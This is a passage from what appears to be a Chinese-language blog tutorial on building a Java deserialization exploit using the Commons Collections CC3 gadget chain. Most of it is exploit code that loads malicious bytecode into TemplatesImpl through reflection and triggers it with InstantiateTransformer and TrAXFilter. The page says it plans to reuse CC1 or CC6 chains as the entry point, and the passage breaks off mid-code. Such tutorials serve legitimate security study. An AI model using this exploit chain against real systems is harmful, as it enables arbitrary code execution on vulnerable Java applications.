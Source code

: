 ```
 nameField.setAccessible(true);  
 nameField.set(templates,"Drunkbaby");  
  
 Field bytecodesField = templatesClass.getDeclaredField("_bytecodes");  
 bytecodesField.setAccessible(true);  
 byte[] evil = Files.readAllBytes(Paths.get("E://Calc.class"));  
 byte[][] codes = {evil};  
 bytecodesField.set(templates,codes);  
  
 Field tfactoryField = templatesClass.getDeclaredField("_tfactory");  
 tfactoryField.setAccessible(true);  
 tfactoryField.set(templates, new TransformerFactoryImpl());  
 //    templates.newTransformer();  
  
 InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class},  
 new Object[]{templates});  
 instantiateTransformer.transform(TrAXFilter.class);  
 }  
}
```

![img](https://drun1baby.top/2022/06/20/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Commons-Collections%E7%AF%8704-CC3%E9%93%BE/InstantiateTransformerHalfEXP.png)

后半部分 EXP 写好了，我们去找入口类的前半部分。而前半部分链子从谁调用了 `transform` 方法开始，所以 CC1 链和 CC6 链的前半部分 EXP 都是有效的。我们直接搬进来试一下。

#### CC1 链作为前半部分

- 后续发现这段 EXP 报错了

JAVA

```
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;  
import org.apache.commons.collections.Transformer;  
import org.apache.commons.collections.functors.ConstantTransformer;  
import org.apache.commons.collections.functors.InstantiateTransformer;  
import org.apache.commons.collections.map.LazyMap;  
  
import javax.xml.transform.Templates;  
import java.io.*;  
import java.lang.reflect.Constructor;  
import java.lang.reflect.Field;  
import java.lang.reflect.InvocationHandler;  
import java.lang.reflect.Proxy;  
import java.nio.file.Files;  
import java.nio.file.Paths;  
import java.util.HashMap;  
import java.util.Map;  
  
// CC3 链最终 EXPpublic class CC3FinalEXP {  
    public static void main(String[] args) throws Exception  
    {  
        TemplatesImpl templates = new TemplatesImpl();  
 Class templatesClass = templates.getClass();  
 Field nameField = templatesClass.getDeclaredField("_name");  
 nameField.setAccessible(true);  
 nameField.set(templates,"Drunkbaby");  
  
 Field bytecodesField = templatesClass.getDeclaredField("_bytecodes");  
 bytecodesField.setAccessible(true);  
 byte[] evil = Files.readAllBytes(Paths.get("E://Calc.class"));  
 byte[][] codes = {evil};  
 bytecodesField.set(templates,codes);  
```